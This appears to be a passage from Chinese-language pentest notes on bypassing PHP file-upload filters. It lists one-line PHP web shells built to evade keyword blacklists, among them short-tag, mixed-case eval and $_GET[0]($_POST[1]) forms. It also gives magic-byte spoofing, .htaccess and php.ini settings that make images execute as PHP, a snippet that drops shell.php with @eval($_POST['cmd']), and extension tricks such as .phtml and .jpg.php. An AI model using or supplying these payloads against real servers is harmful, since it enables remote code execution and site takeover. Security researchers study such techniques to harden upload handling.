         - 白名单

            - 00截断：POST请求参数需要URL decode
            - 单独的文件名参数改为数组形式，如 `['demo.php','.','jpg']`

    - 检查Content-Type：Mime白名单

    - 检查内容

        - 检查前几个字节（CRLF：0d 0a）
        
            - jpg `FF D8`
            - png `89 50`
            - gif `47 49 46` `GIF89a;`

        - 关键字黑名单

            - 短标签绕过php `<?=eval($_GET['cmd']);?>`

            - 大小写绕过eval  `<?php EvaL($_GET['cmd']); ?>`

            - 参数0传递assert `<?php $_GET[0]($_POST[1]); ?>`

    - 其它逻辑

        - 二次渲染：向GIF中插入木马，多试几次

        - 条件竞争：并发处理不当或操作顺序设计不合理时，可以利用时间差访问（结合写入，可能还需要文件包含漏洞）

- 上传图片马：结合文件包含利用
```
AddType application/x-httpd-php .l33t
```
```xml
<FilesMatch "demo.jpg">
SetHandler application/x-httpd-php
</FilesMatch>
```
```ini
auto_prepend_file=web.jpg
auto_append_file=a.jpg
```
```php
<?php
fwrite(fopen('shell.php', 'w'), '<?php @eval($_POST["cmd"]) ?>');
?>
```

- 后缀替换

```
.php3
.phtml
.pht
.phar
.inc
```

- 双后缀

```
.jpg.php
.php.jpg
```
